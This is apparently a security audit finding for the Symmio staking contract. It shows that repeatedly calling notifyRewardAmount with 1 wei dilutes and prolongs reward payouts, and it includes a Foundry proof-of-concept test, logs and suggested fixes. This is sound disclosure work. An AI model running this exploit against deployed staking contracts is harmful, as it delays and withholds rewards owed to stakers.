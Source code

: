 Dizzy Stone Sidewinder

Medium

# `StakingRewards` reward rate can be dragged out and diluted

## Summary
The `SymmStaking` contract's `_addRewardsForToken` function recalculates the reward rate and extends the reward period each time new rewards are added. This mechanism can be exploited to dilute the reward rate by repeatedly adding minimal rewards, effectively extending the reward distribution period indefinitely.

## Vulnerability Details
In `SymmStaking.sol`,  when new rewards are added:
https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L369-L378
```javascript
function _addRewardsForToken(address token, uint256 amount) internal {
		TokenRewardState storage state = rewardState[token];

		if (block.timestamp >= state.periodFinish) {
			state.rate = amount / state.duration;
		} else {
			uint256 remaining = state.periodFinish - block.timestamp;
			uint256 leftover = remaining * state.rate;
			state.rate = (amount + leftover) / state.duration;
		}

		state.lastUpdated = block.timestamp;
		state.periodFinish = block.timestamp + state.duration;
	}
```
The `StakingRewards.notifyRewardAmount` function receives a reward amount and  `_addRewardsForToken` extends the current reward end time to now + rewardsDuration.
It rebases the currently `remaining rewards + the new rewards (amount + leftover)` over this new `rewardsDuration` period.
This can lead to a dilution of the reward rate and rewards being dragged out forever by malicious new reward deposits.

## Attack Scenario
1. Initial state: `state.rate` is 1000 tokens .
2. After 20% of duration passes:

   - `remaining = state.periodFinish - block.timestamp` (80% of duration)(7-1.4 = 5.6 days)

   - `leftover = remaining * state.rate` ( 5.6 * 1000 ) 

3. Attacker calls with minimal amount (e.g., 1 wei):

   - New `state.rate = (amount + leftover) / state.duration ` ((1 + 5.6 * 1000) / 7) = 800

   - Rate drops by ~20%

4. This can be repeated to continuously dilute the rate.

## Proof Of Code
1. Use this guide to intergrate foundry into your project: [foundry]( https://hardhat.org/hardhat-runner/docs/advanced/hardhat-and-foundry)
2. Create a new file `FortisTest.t.sol` in the test directory.
3. Add the following code to the file .
4. Run the test using  `forge test --mt test_FortisStakingRewardRateCanBeDragged -vvvv`

```javascript
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import {SymmStaking} from "../contracts/staking/SymmStaking.sol";
import {Symmio} from "../contracts/token/symm.sol";
import {ERC20Mock} from "@openzeppelin/contracts/mocks/token/ERC20Mock.sol";

contract FortisTest is Test {

    ERC20Mock public USDC;
    ERC20Mock public USDT ;

    SymmStaking public staking;
    address public alice  = makeAddr("alice");
    address public bob = makeAddr("bob");
    Symmio public symmio;
    string  name = "symmio";
    string  symbol = "SYM";

    address public admin = makeAddr("admin");
    function setUp() public {
       vm.startPrank(admin);
       USDC = new ERC20Mock();
       USDT = new ERC20Mock();
       symmio = new Symmio(name, symbol , admin);
       staking = new SymmStaking();
       staking.initialize(admin , address(symmio));
       vm.stopPrank();
    }
    
    function test_FortisStakingRewardRateCanBeDragged() public {
      address[] memory tokens; 
      tokens = new address[](1);
      tokens[0] = address(USDC);  
      uint256[] memory amounts;
     amounts = new uint256[](1);
     amounts[0] = 605e6;
     USDC.mint(bob , 1000e6);
     USDT.mint(bob , 100e6);
     bytes32 MINTER_ROLE = keccak256("MINTER_ROLE");
     vm.startPrank(admin);
     address minter = makeAddr("minter");
     symmio.grantRole(MINTER_ROLE , minter );
     staking.configureRewardToken(address(USDC), true);
     
     vm.stopPrank();
     vm.startPrank(minter);  
     symmio.mint(alice , 100e6);
     symmio.mint(bob, 200e6);
     
     vm.stopPrank();
     vm.startPrank(bob);
     
     USDC.approve(address(staking), 1000e6);
     
     staking.notifyRewardAmount(tokens , amounts);
     vm.stopPrank();
      
       
       (
         uint256 lastUpdateTime,
         uint256 rewardPerTokenStored,
         uint256 rewardRate,
         uint256 periodFinish,
         uint256 rewardAmount
     ) = staking.rewardState(address(USDC));
     
     console.log("\n=== Initial Staking State ===");
     console.log("Initial Reward Rate:", rewardRate);
     
     vm.warp(block.timestamp + 1.4 days);
     console.log("\n=== After Warping to 20% of Period ===");
     
     vm.startPrank(bob);
     uint256[] memory amounts2;
     amounts2 = new uint256[](1);
      amounts2[0] = 1;
     
     staking.notifyRewardAmount(tokens , amounts2);
     vm.stopPrank();
     
       (
         uint256 lastUpdateTime1,
         uint256 rewardPerTokenStored1,
         uint256 rewardRate1,
         uint256 periodFinish1,
         uint256 rewardAmount1
     ) = staking.rewardState(address(USDC));
     
     console.log("\n=== After Minimal Reward Notification ===");
     console.log("New Reward Rate:", rewardRate1);
     console.log("Reward Rate Reduction:", rewardRate - rewardRate1);
     console.log("Reward Rate Reduction %:", ((rewardRate - rewardRate1) * 100) / rewardRate, "%");
    }
   }

```
### Logs
```javascript
[PASS] test_FortisStakingRewardRateCanBeDragged() (gas: 595320)
Logs:

=== Initial Staking State ===
  Initial Reward Rate: 1000

=== After Warping to 20% of Period ===
  
=== After Minimal Reward Notification ===
  New Reward Rate: 800
  Reward Rate Reduction: 200
  Reward Rate Reduction %: 20 %
```
## Reference
https://solodit.cyfrin.io/issues/m-11-stakingrewards-reward-rate-can-be-dragged-out-and-diluted-code4rena-y2k-finance-y2k-finance-contest-git

## Recommendation
- The `rewardRate` should never decrease by a `notifyRewardAmount` call. 

- Consider not extending the reward payouts by `rewardsDuration` on every call.

- `periodFinish` probably shouldn't change at all, the ` rewardRate` should just increase by `state.rate += amount / (state.periodFinish - block.timestamp).`
